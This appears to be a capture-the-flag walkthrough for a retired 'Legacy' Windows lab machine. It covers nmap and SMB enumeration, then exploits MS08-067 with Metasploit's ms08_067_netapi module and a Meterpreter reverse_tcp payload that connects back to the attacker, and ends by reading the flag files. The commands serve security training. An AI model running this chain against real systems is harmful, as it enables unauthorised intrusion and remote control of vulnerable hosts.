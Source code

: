 # Windows Legacy Exploitation Walkthrough

## Overview
This guide details the steps for identifying and exploiting a vulnerable **Windows Legacy** machine, using enumeration, SMB vulnerability scanning, and exploitation with Metasploit.

---

## 1. Identifying the Target OS
Run the following **ping** command to determine the OS based on TTL values:

```bash
sudo ping -c 1 10.10.10.4
```

- **TTL < 65** → Linux
- **TTL 65-128** → Windows
- **TTL > 128** → Network appliance

Since the TTL is **127**, the target is a **Windows** machine.

---

## 2. Running an Nmap Scan
Perform an **aggressive full-port scan** with service detection:

```bash
sudo nmap -vvv -Pn -sCV --reason -T4 -p 0-65535 -oN legacy.nmap 10.10.10.4
```

- **`-sCV`** → Runs default scripts and version detection
- **`-Pn`** → Treats the host as online
- **`-T4`** → Aggressive timing
- **`-oN legacy.nmap`** → Saves output to a file

---

## 3. Enumerating SMB (Server Message Block)

### **Using enum4linux**
```bash
sudo enum4linux -a 10.10.10.4
```

### **Checking SMB Shares**
```bash
sudo smbmap -H 10.10.10.4
```
```bash
sudo smbclient --no-pass --list=\\10.10.10.4\
```
```bash
sudo smbclient -N -L =\\10.10.10.4\
```

---

## 4. Scanning for SMB Vulnerabilities

Find relevant **SMB vulnerability scripts**:
```bash
ls /usr/share/nmap/scripts | grep smb | grep vuln
```

Run **Nmap SMB Vulnerability Scan**:
```bash
sudo nmap -vvv -Pn -sCV -T4 -p 139,445 --script smb-vuln* -oN legacy_smb.nmap 10.10.10.4
```

---

## 5. Exploiting MS08-067 (SMB Vulnerability)

Start **Metasploit** and run the exploit:
```bash
msfconsole
```
```bash
use exploit/windows/smb/ms08_067_netapi
set RHOSTS 10.10.10.4
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <Your_IP>
set RPORT 445
exploit
```

---

## 6. Post-Exploitation

### **Meterpreter Commands**
```bash
sysinfo   # Get system information
shell     # Get interactive command shell
whoami    # Check current user
```

### **Get User Flag**
Navigate to `C:\Users\Public\Desktop` and retrieve the flag:
```bash
cd C:\Users\Public\Desktop
type user.txt
```

### **Get Admin Flag**
Navigate to `C:\Users\Administrator\Desktop` and retrieve the flag:
```bash
cd C:\Users\Administrator\Desktop
type root.txt
```

---

## Summary
✅ **Ping TTL** confirms Windows
✅ **Nmap** finds open ports (likely SMB 445)
✅ **Enum4linux** and **smbmap** list SMB shares
✅ **Nmap SMB Vuln Scan** confirms **MS08-067**
✅ **Metasploit** exploits MS08-067 for **meterpreter shell**
✅ **User & Admin flags retrieved**

### 🚀 Exploitation complete!
